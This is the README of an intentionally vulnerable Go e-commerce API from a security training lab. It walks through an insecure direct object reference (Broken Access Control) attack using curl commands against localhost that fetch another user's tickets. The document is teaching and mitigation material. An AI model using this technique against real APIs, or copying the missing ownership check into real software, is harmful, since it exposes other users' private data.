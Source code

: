 # Vulnerable Ecommerce API

<p align="center">
    <img src="images/a5-banner.png"/>
</p>

Vulnerable Ecommerce API is a simple Golang web application that contains an example of a Broken Access Control vulnerability and it's main goal is to describe how a malicious user could exploit it.

## Index

- [Definition](#what-is-broken-access-control)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Broken Access Control?

Restrictions on what authenticated users are allowed to do are often not properly enforced. Attackers can exploit these flaws to access unauthorized functionality and/or data, such as access other users' accounts, view sensitive files, modify other users’ data, change access rights, etc.

The main goal of this app is to discuss how **Broken Access Control** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a5/ecommerce-api
```

```sh
make install
```

Then simply visit [localhost:8888][App] ! 😆

## Get to know the app 💵

To properly understand how this application works, you can follow this step:

- Try registering an user and log in!

## Attack narrative

Now that you know the purpose of this app, what could possibly go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or it's users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Lack of userID validation allows for an attacker to get other users' tickets

In order to better understand how this API works, two users, `user1` and `user2`, were created as shown below: 

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"user1","password":"pass"}' http://localhost:8888/register  
```
```sh
curl -s -H "Content-Type: application/json" -d '{"username":"user2","password":"pass"}' http://localhost:8888/register
```

<p align="center">
    <img src="images/attack0.png"/>
</p>


Or using web interface:

<p align="center">
    <img src="images/attack1.png"/>
</p>


The users created above are registered on MongoDB and we can get their `userID` through the following curl commands:

```sh
curl -s -H "Content-Type: application/json" -d '{"username":"user1","password":"pass"}' http://localhost:8888/login
```
```sh
curl -s -H "Content-Type: application/json" -d '{"username":"user2","password":"pass"}' http://localhost:8888/login
```

<p align="center">
    <img src="images/attack2.png"/>
</p>

This can also be observed via the web interface. In the web interface it is possible to verify that after completing the login form, two requests are made to the API.

<p align="center">
    <img src="images/attack3.png"/>
</p>

### 🔥

Having both `userID`, we can verify that the route "`GET /ticket/:userID`" does not validade if the request was made by the same user or someone else without the proper permission, as shown by the image:

```sh
curl -vvv http://localhost:8888/ticket/GUID
```

<p align="center">
    <img src="images/attack4.png"/>
</p>

## Secure this app

How would you migitate this vulnerability? After your changes, an attacker should not be able to:

* Access other users' tickets.

## PR solutions

[Spoiler alert 🚨 ] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Vulnerable+Ecommerce+API%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:8888
[secDevLabs]: https://github.com/globocom/secDevLabs
[2]:https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a5/ecommerce-api

